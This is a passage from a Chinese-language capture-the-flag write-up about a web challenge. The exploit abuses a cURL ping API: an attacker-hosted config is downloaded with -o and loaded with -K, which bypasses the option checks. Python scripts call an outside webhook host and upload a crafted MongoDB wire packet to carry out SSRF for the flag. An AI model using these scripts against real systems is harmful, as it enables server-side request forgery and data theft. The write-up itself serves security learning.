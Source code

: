 你可以傳入一個 URL 跟 option 來讓它執行 cURL，其中對於參數的檢查可以用 config 繞過，先用 -o 下載 config 並存到一個叫做 `GET` 的檔案，然後再用 `-K` 來使用 config，像這樣：

``` py
import requests
import time

host = 'https://unfinished-27df3c439f8d6dd1.mc.ax'
hook_url = 'https://webhook.site/576f330a-c867-4609-b83f-36bbca32abfe'
config_url = 'https://gist.githubusercontent.com/aszx87410/a0a710f8bcc351958d107924632888c9/raw/54673c647da2ea04e90a1c67c7a40eb7e99320f6/test.txt'

def send_command(url, opt="", data=""):
  if opt == "":
    req_data = {
      "url": url
    }
  else:
    req_data = {
      "url": url,
      "opt": opt,
      "data": data
    }
  resp = requests.post(host + "/api/ping", data=req_data)
  print(resp.status_code)

send_command(hook_url)
time.sleep(5) # need to wait for server restart 

send_command(config_url, "-o", "GET")
time.sleep(5)

send_command(hook_url, "-K", "GET")
time.sleep(5)
```

但這是最簡單的部分，最難的部分是 flag 存在 mongoDB 裡面，所以你要想辦法用 cURL 去 SSRF mongoDB。

喔對了，這題不能用 gopher，因為 gopher 被禁用了。

比賽的時候沒想到怎麼弄，弄不出來，賽後看了其他人的解法，可以用 `telnet` 來做(source: https://discord.com/channels/805956008665022475/805962699246534677/1071901986338897982)：

``` py
import requests
import time

url = 'https://unfinished-9044.mc.ax'

with open('raw_packet.txt', 'wb') as fout:
    fout.write(b'\x92\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\xdd\x07\x00\x00\x00\x00\x00\x00\x00\x7d\x00\x00\x00\x02\x66\x69\x6e\x64\x00\x05\x00\x00\x00\x66\x6c\x61\x67\x00\x03\x66\x69\x6c\x74\x65\x72\x00\x05\x00\x00\x00\x00\x10\x6c\x69\x6d\x69\x74\x00\x01\x00\x00\x00\x08\x73\x69\x6e\x67\x6c\x65\x42\x61\x74\x63\x68\x00\x01\x10\x62\x61\x74\x63\x68\x53\x69\x7a\x65\x00\x01\x00\x00\x00\x03\x6c\x73\x69\x64\x00\x1e\x00\x00\x00\x05\x69\x64\x00\x10\x00\x00\x00\x04\xce\x2d\x77\x58\x58\xfd\x41\xc2\x98\xf9')

print('upload packet contents')
res = requests.post('%s/api/ping' % url, data = {
    'url': 'http://[...]/raw_packet.txt',
    'opt': '-o',
    'data': 'GET',
})
assert res.status_code == 200

time.sleep(5)
```